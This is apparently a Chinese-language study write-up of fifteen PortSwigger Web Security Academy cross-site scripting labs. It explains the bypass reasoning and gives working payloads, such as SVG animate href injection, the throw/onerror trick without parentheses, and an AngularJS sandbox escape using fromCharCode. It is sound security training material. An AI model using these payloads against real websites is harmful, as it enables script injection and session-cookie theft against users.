

**目录：**

[TOC]

#### 1. Reflected XSS into HTML context with nothing encoded

很简单的一道题，有手就行

#### 2. Reflected XSS into HTML context with most tags and attributes blocked

题目说过滤了大多数标签，去找找还有什么标签可以使用。

直接用burp爆破tag和event（看状态码）

得到了tag为`body`，event为`onresize`

`onresize`要在窗口大小被改变的时候触发

用题目的exlpoit，在body部分构造一个iframe，然后onload事件在触发的时候改变大小

payload:(因为是在body部分，记得提前转码，好像不用转码也能过)

```html
<iframe src="https://acc91f9b1fff1f7980540718002a0084.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=alert(document.cookie)%3E" onload=this.style.width='100px'>
<iframe src="https://ac321fb51e21f4e780230d4600710017.web-security-academy.net/?search=<body onresize=alert(document.cookie)>" onload=this.style.width='100px'>
```

#### 3. Reflected XSS into HTML context with all tags blocked except custom ones

* 交互情况

过滤了除过自定义标签之外的所有HTML标签，但可以使用自定义标签。

自定义标签无法使用`onload`属性，但是onfocus可以使用，即聚焦触发（点击，而且可以多次），所以为了聚焦，还得需要给其聚焦的属性--`tabindex`

> **tabindex** [全局属性](https://developer.mozilla.org/en-US/docs/Web/HTML/Global_attributes) 指示其元素是否可以聚焦，以及它是否/在何处参与顺序键盘导航（通常使用Tab键，因此得名）。
>
> - tabindex=负值 (通常是tabindex=“-1”)，表示元素是可聚焦的，但是不能通过键盘导航来访问到该元素，用JS做页面小组件内部键盘导航的时候非常有用。
> - `tabindex="0"` ，表示元素是可聚焦的，并且可以通过键盘导航来聚焦到该元素，它的相对顺序是当前处于的DOM结构来决定的。
> - tabindex=正值，表示元素是可聚焦的，并且可以通过键盘导航来访问到该元素；它的相对顺序按照**tabindex** 的数值递增而滞后获焦。如果多个元素拥有相同的 **tabindex**，它们的相对顺序按照他们在当前DOM中的先后顺序决定。

`<xss tabindex=1 onfocus="alert(document.cookie)">`

但是聚焦的话，需要一个可以聚焦的对象，所以需要（可显示的）文字

`<xss tabindex=1 onfocus="alert(document.cookie)">aaaaa`

>**补充：经过仔细实测，不用（可显示的）文字也能聚焦触发，即对着前（或后）相应的位置按下即可**

payload:(exploit server)

```html
<script>
location = 'https://acbb1f641eaf54af80700c4800db0027.web-security-academy.net/?search=<xss id=x tabindex=1 onfocus="alert(document.cookie)">aaaaa';
</script>
```

* 自动触发

自动触发的话，需要用户点击进入页面（exploit server）就自动聚焦，

为了实现自动聚焦，我们给标签添加一个id，然后在后面加上锚点，使用`#`

> <a>标记可以指向具有id属性的任何元素。
>
> 打开链接的时候也是同理

`<xss id=x tabindex=1 onfocus="alert(document.cookie)">#x`

最终payload：

```html
<script>
location = 'https://acbb1f641eaf54af80700c4800db0027.web-security-academy.net/?search=<xss id=x tabindex=1 onfocus="alert(document.cookie)">#x';
</script>
```

#### 4. Reflected XSS with event handlers and `href` attributes blocked

可用的tag有：a, animate, discard, image, svg, title

可用的event有：...一个都没有

href属性也不能用。应该是不能使用`href=`

但是在svg标签存在的情况下，animate可以给上一个标签赋值。

如

```html
<svg><a><animate attributeName=href values="javascript:alert(1)"/>Click me</a></svg>
```

> <animate attributeName=href values="javascript:alert(1)"/> 等同于
>
> <animate attributeName=href values="javascript:alert(1)"></animate>
>
> 即马上在后面添加标签结束符

这样就可以成功把`<a>`变成`<a href="javascript:alert(1)">`

但是这样不会显示`Click me`那个文本，因为在`<svg>`标签下，需要一个框的大小才能正常显示文字

添加大小的方式：`<text x=20 y=20>`或者`<rect width=100% height=100%>`(要求text标签包含文字)

所以最终payload：

```html
<svg><a><animate attributeName=href values="javascript:alert(1)"/><text x=20 y=20>Click me</text></a></svg>
<svg><a><animate attributeName=href values="javascript:alert(1)"/><rect width=100% height=100%>Click me</rect></a></svg>
```

#### 5.Reflected XSS with some SVG markup allowed

然后爆破出来可以用discard,image, svg, title四个标签以及onbegin事件

直接去[XSS-payload](../字典/XSS-payload.txt)搜索discard和onbegin

最终找到了`<svg><discard onbegin=alert(1)>`

#### 6.Reflected XSS into attribute with angle brackets HTML-encoded

题目的意思是，过滤了`<` 和`>`，并将它们替换成命名实体

显示考虑到用`<svg>`标签进行反实例化，但是`<svg>`本身就包含尖括号，已经不起作用

我一开始以为这个只会在顶上显示，然后后面翻了一下，发现有一个value，这就简单了，直接封闭然后onclick

```
"onclick="alert(1)
```

确实弹窗了，但是不给过，看了一下答案，用的是onmouseover，就很疑惑

payload

```
"onmouseover="alert(1)
```

#### 7.Stored XSS into anchor `href` attribute with double quotes HTML-encoded

这个题漏洞出在提交评论的地方。提交了几次之后发现位置。


发现没有过滤。。。就直接输入就可以了。

#### 8.Reflected XSS in canonical link tag

按键触发。canonical link tag。


发现位置。

首先需要闭合前面的，双引号被过滤了，用单引号。

payload：

```
url/?%27accesskey=%27x%27onclick=%27alert(1)
url/?%27accesskey=%27x%27onclick=%27alert(1)%27
```

#### 9.Reflected XSS into a JavaScript string with single quote and backslash escaped


找到位置。

没有过滤，直接闭合前面的script

payload：

```
</script><script>alert(1)</script>
```

#### 10.Reflected XSS into a JavaScript string with angle brackets HTML encoded

`< >`都被过滤了。



在这里可以看到输入的特殊字符都被转义了。


这里源码可以清晰的看到输入是被一次url转码了。

既然不能奢望用document.write里面的内容来写出xss，那么可以直接闭合var那里的内容，来在当前的script下面写alert。

即payload为：`';alert(1);'`。

这个题目，官方给的payload是：`'-alert(1)-'`。

#### 11. Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped

尖括号和双引号被编码，单引号被过滤。


注入点还是刚刚这个地方，只不过单双引号都无了。


可以看到，这里的单引号是用的反斜杠来转义的，而且他没有对反斜杠进行过滤操作，那么我们可以自己加反斜杠来绕过。

但是最后的那个单引号不好处理，我直接给注释了。

payload：`\';alert(1);//`

#### 12. Reflected XSS in a JavaScript URL with some characters blocked

这个题目输入在url中。还被禁止了一些字符。随便点一个post，找到可以注入的url。


这个题经过测试，发现括号被过滤了。

这道题我不会做，看了看官方的payload：`https://your-lab-id.web-security-academy.net/post?postId=5&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'`

我就看懂了那个`&`的意思：应该是在传参数的时候单独将id=5隔离出来，防止加载不出来网页。

以下是我到处搜集的资料：

> * [下面英文的出处](https://security.stackexchange.com/questions/229055/reflected-xss-in-a-javascript-url-with-some-characters-blocked)
> * `x=x=>{throw/**/onerror=alert,1337}` is the arrow function which assigns alert as global error handler and throws 1337.
>
> * `toString=x, window+''` assigns x to toString and then forces a string conversion on window.
>
> * The `&` is simply a parameter separator since we are passing our user values via a GET request. This is esentially creating a new parameter named `'},x` with the rest of the XSS payload `x=%3E{throw/**/onerror=alert,1337},toString=x,window+%27%27,{x:%27` as its value. This way the URL does not break, while the whole payload makes its way into the anchor tag containing the vulnerable JavaScript URL.
> * The last part of the payload `{x:'` completes the remaining JavaScript code `'}.finally...` ensuring that our injected payload does not break it, but allows it to execute properly.
> * `&`: appends a new parameter to leave the `postId` parameter untouched.
> * `'}`: breaks out of `body:'/post?postId=1'}`. The code should now look like `fetch('/analytics', {method:'post',body:'/post?postId=1&'}'}).finally(_ => window.location = '/')`
> * `,x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',`: Is a fancy way to call `alert(1337)`. It basically overwrites the `toString` method and triggers it. `,toString=alert(1337),window+'',` doesn't work, since `(` and `)` are blocked. The `,` separation is important to not break the JavaScript.
> * when you click `Back to Blog` the fetch instruction should be visible in DevTools. This can't be done with the solution payload, since the [throw](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Statements/throw) statement prevents/interrupts the fetch call.
> * 另外，[这个网站](https://portswigger.net/research/xss-without-parentheses-and-semi-colons)详细介绍了throw和onerreor的搭配用法。应该会对这个题的理解有帮助。
> * [箭头函数](https://www.liaoxuefeng.com/wiki/1022910821149312/1031549578462080)

下面我改了官方的一些东西，使得其看起来更加容易。

`https://your-lab-id.web-security-academy.net/post?postId=5&'},y=x=>{throw/**/onerror=alert,1337},toString=y,window+'',{a:'`


个人解释：

* 传入参数：
  * `postId`=`5`
  * `'},y`=`x=>{throw/**/onerror=alert,1337},toString=y,window+'',{a:'`

* 解析js：
  * 首先`5&’}`这一部分将前面封闭。
  * 然后创建了一个箭头函数（匿名函数） x=>{throw/**/onerror=alert,1337}（x是函数的输入，但是函数里面并没有用），并将结果alert(1337)赋值给y。
  * `toString=y,window+''`将y强制转换成字符串并且创建窗口进行输出。（有一说一，这里的转换和窗口没咋看懂，只知道大概是这个意思。）
  * 最后一点`{a:'`只是为了封闭后面的部分。

#### 13. Stored XSS into `onclick` event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped


提交评论，然后点击作者名称将会调用alert。


这个题目大概就是你在提交的时候，你填写的website部分会变成你名字的链接，并且还在onclick里面有展示。

这个题目的要求大概是在onclick里面搞事，毕竟题目名字里面就有onclick。

直接尝试闭合，发现单引号被转义了，尝试自己加反斜杠。


然后发现，反斜杠也被处理掉了。


尝试一下单引号的实体编码。好像实体编码可以在js里面被解析。

> 这里查了一下为什么实体编码可以被js解析。
>
> * 输入实体编码，在html中是相当于被转义，如输入`&#39;`就相当与一个没有特殊意义的单引号。
> * 输入`&#39;`之后，在html中会把这个变成`'`，而且html传给js代码的时候，是传的字符串，也就是传的`'`，而这个在js代码中是可以被正常解析的。

`https://ss&#39;);alert(1);//`

这个点击名字的时候，是可以出发alert的。但是不给过。很奇怪。

我看了一下官方的payload：`http://foo?&apos;-alert(1)-&apos;`用的是`&apos;`。

#### 14. Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped


要在这里面绕过，并且触发alert。

在尝试的过程中，发现单引号变成了`\u0027`，被unicode编码了，尝试用实体编码来绕过。


这次应该是直接写进去的，所以并没有被转换。实体编码也不行。

想要闭合这个单引号应该是不太可能的了。但是注意这个是[模板字符串](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/template_strings)。模板字符串可以接受`${function}`的形式来调用函数，然后将结果返回在原位置。

就比如：

````
'u' + (a+b) + 'b'   ===   `u${a+b}b`
````


也就是说，这里面可以执行函数。那就可以传入这个，然后在里面执行alert。

payload：`${alert(1)}`

#### 15. Reflected XSS with AngularJS sandbox escape without strings


这个题目使用了[AngularJS沙箱](https://portswigger.net/web-security/cross-site-scripting/contexts/angularjs-sandbox)。

从文档中我们知道了应该用orderBy来构造payload。

orderBy的典型使用方法是：`[123]|orderBy:'Some string'`

题目禁止了在AngularJS里面使用$eval方法以及字符串。那我们可以采用`toString().constructor.fromCharCode()`的方法向`orderby`的参数里面传字符串。

要注入进去还需要欺骗`isIdent()`函数，也就还需要`toString().constructor.prototype.charAt=[].join`。

而`alert(1)`转换成数字就是`97, 108, 101, 114, 116, 40, 49, 41`

所以我初步的payload：

```
toString().constructor.prototype.charAt=[].join;[1]|orderBy:toString().constructor.fromCharCode(97,108,101,114,116,40,49,41)
```

但是我传进去之后，他说search参数的值不能超过120个字符。

那我用`&`隔开前后，让search单独等于一个值。

改造之后的payload：

```
1&toString().constructor.prototype.charAt=[].join;[1]|orderBy:toString().constructor.fromCharCode(97,108,101,114,116,40,49,41)
```

然后，发现不行。去看了看官方的payload。

```
1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
```

经过我不断的减量测试，发现官方最后那个`=1`不是必要的。（直接用官方的payload，去掉`=1`也能正常的弹窗。）

于是我一开始以为就差了那个`120,61`，官方给的是`x=alert(1)`，我写的是`alert(1)`。（至于为啥要用`x=alert(1)`我并没有搞懂）

然而我改成和官方一样之后还是不行。就离谱。

然后，当我将`charAt%3d[]`里面的`%3d`改成`=`之后，发现官方的payload也不行了，我去，这是什么阴间东西。

然后我仔细一想，如果这里是`=`，那么第二个参数（前面`&`隔开了）就有了名字和值，传进去后就被分开了，当然就不行了。

（顺带提一嘴，这个只能在地址栏输入，不能在下面那个框框输入，要不然`&`就会被url编码，导致不能发挥作用，search的值会超过120个字符。因为在地址栏输入，我一开始也就没有注意这个`%3d`）

最后我的payload是：

```
1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)
```

